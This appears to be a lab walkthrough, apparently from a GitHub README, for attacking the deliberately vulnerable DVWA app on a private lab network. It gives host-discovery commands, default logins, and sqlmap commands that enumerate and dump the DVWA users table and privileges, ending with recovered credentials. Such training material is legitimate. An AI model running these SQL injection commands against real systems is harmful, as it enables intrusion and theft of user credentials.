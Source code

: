 1. **Network Configuration Verification**
```bash
ifconfig
ip addr show
```

2. **Host Discovery**
```bash
fping -s -a -g -q 192.168.56.0/24
nbtscan 192.168.56.0/24
```

3. **DVWA Access**
```bash
# Access DVWA in browser
http://192.168.56.103/dvwa

# Login credentials
Username: admin
Password: password

# Set security to low
```

4. **Privilege Escalation**
```bash
sudo su
```

5. **Database Enumeration**
```bash
sqlmap -u "http://192.168.56.103/dvwa/vulnerabilities/sqli/?id=234" --cookie="PHPSESSID=..." --batch --dbs
```

6. **Table Extraction**
```bash
sqlmap -u "http://192.168.56.103/dvwa/vulnerabilities/sqli/?id=1" --cookie="..." -D dvwa --batch --tables
```

7. **Data Extraction**
```bash
sqlmap -u "http://192.168.56.103/dvwa/vulnerabilities/sqli/?id=1" --cookie="..." -D dvwa -T users --batch --dump
```

8. **Privilege Analysis**
```bash
sqlmap -u "http://192.168.56.103/dvwa/vulnerabilities/sqli/?id=1" --cookie="..." --privileges --batch
```

9. **Credential Verification**
```bash
# Manual login verification with extracted credentials
Username: pablo
Password: letmein
```
